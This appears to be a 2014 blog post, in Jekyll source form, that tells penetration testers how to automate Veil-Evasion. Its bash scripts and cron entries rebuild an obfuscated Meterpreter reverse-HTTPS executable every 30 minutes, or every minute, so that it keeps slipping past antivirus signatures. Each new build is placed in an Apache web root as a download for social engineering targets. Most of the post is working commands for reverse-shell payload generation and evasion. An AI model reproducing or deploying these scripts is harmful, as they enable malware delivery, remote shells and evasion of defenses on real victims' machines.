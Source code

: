 ```yaml
---
layout: post
title: Fresh Veil- Automatically Generating Payloads
category: Payloads
year: 2014
month: 2
day: 17
published: true
summary: Keep your Veil payloads fresh to avoid getting caught by signatures.
image: 
---
```

     
<div class="row">  
     <div class="span9 columns">

<p>Veil is awesome - it makes payload generation easy and supports a wide variety of payloads with new ones being dropped pretty often.</p>

<p>Getting caught by AV during a test is not awesome.</p>
<p>Being caught because the target’s AV had a signature hit on you is even worse. Because YOU (the tester) messed up. You didn’t take the extra few minutes to regenerate a payload. I’ve been there and I’m sure you’ve been there. It sucks and you feel silly.</p>

<p>The solution? Use Veil’s command line options and cron to regenerate payloads every 30 minutes. </p>

<br><p><b>Server Build</b></p>
<p>This is the basic build. Let’s assume that you have a server that you catch social engineering payloads on. Static IP (or domain).</p>
<p>For setup, make a directory called <code>/root/payload_temp</code> and use git to clone Veil-Evasion into that folder. Run through the setup script in Veil-Evasion/setup. </p>
<p>The <code>/root/payload_temp</code> directory is where we’ll generate the payload before we move it to our apache root.</p><br>

<p>Let’s take a look at Veil’s command line options:</p>
<img src="{{site.url}}/assets/freshveil1.png" style="height:400px"><br><br>

<p>Using these options, you can generate any payload from within Veil from the command line.</p>

<br><p>For the example code below we’ll make a <code>python/meterpreter/rev_https_contained</code> payload:</p>

<p><code>python /PATH/TO/Veil-Evasion.py -p python/meterpreter/rev_https_contained -c compile_to_exe=Y use_pyherion=Y LHOST=X.X.X.X LPORT=443 --overwrite</code></p>

<p>The <code>--overwrite</code> is necessary here to ensure that the new payloads replace the old ones. You will of course need to replace the X.X.X.X with your WAN IP or local IP if running it within a private network.</p>

<p>With the Veil command figured out, create a bash script called <code>/payload_gen.sh</code> to generate the payload and move it to the apache root:</p>

<pre><code>#!/bin/bash
cd /root/payload_temp
python /PATH/TO/Veil-Evasion.py -p python/meterpreter/rev_https_contained -c compile_to_exe=Y use_pyherion=Y LHOST=X.X.X.X LPORT=443 -o /root/payload_temp/FreshPayload --overwrite
sleep 1
mv -f /root/veil-output/compiled/payload.exe /var/www/FreshPayload.exe</code></pre>

Now we’ll add this to the cron:
<p><code>crontab -e</code> will bring up the cron settings. In the first two blank lines enter:
<pre><code>10 * * * * /payload_gen.sh
40 * * * * /payload_gen.sh</code></pre>

<p>This will make the script run twice an hour at the 10 and 40 minute marks. You can heavily customize the timing options using cron, but this is a basic implementation.

<p>That’s it. Easy, right?
<p>Good. Moving on…


<br><br><p><b>Variable IP Auto-Generation</b></p>
<p>Chances are, you’re in and out of networks that you’re testing and it’s no fun to find a possible vector that needs a binary and then have to go through the whole process of generating the payload before you can test.

<p>So <code>payload_gen2.sh</code> will pull the active eth0 IPv4 address and plug it into the same script:

<pre><code>#!/bin/bash
ADDY=$(ifconfig eth0 | awk '/inet addr/{print $2}' | awk -F':' '{print $2}')
cd /root/payload_temp
python /PATH/TO/Veil-Evasion.py -p python/meterpreter/rev_https_contained -c compile_to_exe=Y use_pyherion=Y LHOST=$ADDY LPORT=443 --overwrite
sleep 1
mv -f /root/veil-output/compiled/payload.exe /var/www/FreshPayload.exe</code></pre>

<p>For the crontab on this payload, I personally have it regenerate every minute so I never need to think about whether I got a new IP since it generated. Edit crontab using <code>crontab -e</code> and place the following code at the bottom:
<pre><code>* * * * * /payload_gen2.sh</code></pre>

<p>You could, of course, stack multiple payloads of different types (perhaps with some additional post-processing) in this script so you get a full, fresh set of all of the many payload types that Veil can generate. All ready for you in your Apache folder.




     </div>
     </div>
<div class="row">
     <div class="span9 column">
          <p class="pull-right">{% if page.previous.url %} <a href="{{page.previous.url}}" title="Previous Post: {{page.previous.title}}"><i class="icon-chevron-left"></i></a>     {% endif %}   {% if page.next.url %}    <a href="{{page.next.url}}" title="Next Post: {{page.next.title}}"><i class="icon-chevron-right"></i></a>     {% endif %} </p>  
     </div>
</div>
